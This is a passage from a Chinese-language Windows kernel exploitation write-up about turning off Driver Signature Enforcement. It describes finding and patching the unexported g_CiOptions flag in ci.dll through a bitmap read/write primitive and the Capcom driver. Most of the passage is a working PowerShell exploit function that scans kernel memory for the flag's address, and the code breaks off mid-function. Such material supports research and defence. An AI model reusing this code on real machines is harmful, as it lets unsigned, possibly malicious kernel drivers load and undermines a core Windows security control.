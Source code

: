 [![](https://p5.ssl.qhimg.com/t0124422e131738d9d8.png)](https://p5.ssl.qhimg.com/t0124422e131738d9d8.png)

**绕过强制驱动签名**

我建议你看下@j00ru的关于强制驱动签名的[write-up](http://j00ru.vexillium.org/?p=377)。结果证明Windows上的代码完整性有一个独立的二进制（ci.dll，%WINDIR%System32）管理。在Windows 8之前，CI导出了一个全局的boolean变量g_CiEnabled，完美的表示签名是否启动。在Windows 8之后，g_CiEnabled被另一个全局变量（g_CiOptions）代替，其是一个标志的组合（最重要的是0x0=禁用，0x6=启用，0x8=测试模式）。

由于Δt free-time限制，这个模块只针对Win8+中使用的g_CiOptions。然而，类似的方法可以用于g_CiEnabled（欢迎GitHub pull 请求）。基本上，我们将使用和Derusbi恶意软件的作者一样的技术。因为g_CiOptions没有导出，我们不得不在patch这个值时做些动态计算。如果我们反编译CI!CiInitialize，我们能看见g_CiOptions的指针。

[![](https://p4.ssl.qhimg.com/t013f5a5c28f767f7e8.png)](https://p4.ssl.qhimg.com/t013f5a5c28f767f7e8.png)

与我们之前做的类似，我们能在CI!CiInitialize中泄漏地址，而不是用任何漏洞。

[![](https://p2.ssl.qhimg.com/t017e3b522bcb21693a.png)](https://p2.ssl.qhimg.com/t017e3b522bcb21693a.png)

目前只实现了一些逻辑，使用我们的bitmap原语来读取字节，以寻找第一个“jmp”（0xE9），和第一个“mov dword ptr[xxxxx], ecx”（0x890D）。一旦我们有了g_CiOptions的地址，我们能设置我们想要的任何值。Powershell函数如下。



```
function Capcom-DriverSigning `{`
    param ([Int]$SetValue)
    # Check our bitmaps have been staged into memory
    if (!$ManagerBitmap -Or !$WorkerBitmap) `{`
        Capcom-StageGDI
        if ($DriverNotLoaded -eq $true) `{`
            Return
        `}`
    `}`
    # Leak CI base =&gt; $SystemModuleCI.ImageBase
    $SystemModuleCI = Get-LoadedModules |Where-Object `{`$_.ImageName -Like "*CI.dll"`}`
    # We need DONT_RESOLVE_DLL_REFERENCES for CI LoadLibraryEx
    $CIHanle = [Capcom]::LoadLibraryEx("ci.dll", [IntPtr]::Zero, 0x1)
    $CiInitialize = [Capcom]::GetProcAddress($CIHanle, "CiInitialize")
    # Calculate =&gt; CI!CiInitialize
    $CiInitializePtr = $CiInitialize.ToInt64() - $CIHanle + $SystemModuleCI.ImageBase
    Write-Output "`n[+] CI!CiInitialize: $('`{`0:X`}`' -f $CiInitializePtr)"
    # Free CI handle
    $CallResult = [Capcom]::FreeLibrary($CIHanle)
    # Calculate =&gt; CipInitialize
    # jmp CI!CipInitialize
    for ($i=0;$i -lt 500;$i++) `{`
        $val = ("`{`0:X`}`" -f $(Bitmap-Read -Address $($CiInitializePtr + $i))) -split '(..)' | ? `{` $_ `}`
        # Look for the first jmp instruction
        if ($val[-1] -eq "E9") `{`
            $Distance = [Int]"0x$(($val[-3,-2]) -join '')"
            $CipInitialize = $Distance + 5 + $CiInitializePtr + $i
            Write-Output "[+] CI!CipInitialize: $('`{`0:X`}`' -f $CipInitialize)"
            break
        `}`
    `}`
    # Calculate =&gt; g_CiOptions
    # mov dword ptr [CI!g_CiOptions],ecx
    for ($i=0;$i -lt 500;$i++) `{`
        $val = ("`{`0:X`}`" -f $(Bitmap-Read -Address $($CipInitialize + $i))) -split '(..)' | ? `{` $_ `}`
        # Look for the first jmp instruction
        if ($val[-1] -eq "89" -And $val[-2] -eq "0D") `{`
            $Distance = [Int]"0x$(($val[-6..-3]) -join '')"
            $g_CiOptions = $Distance + 6 + $CipInitialize + $i
```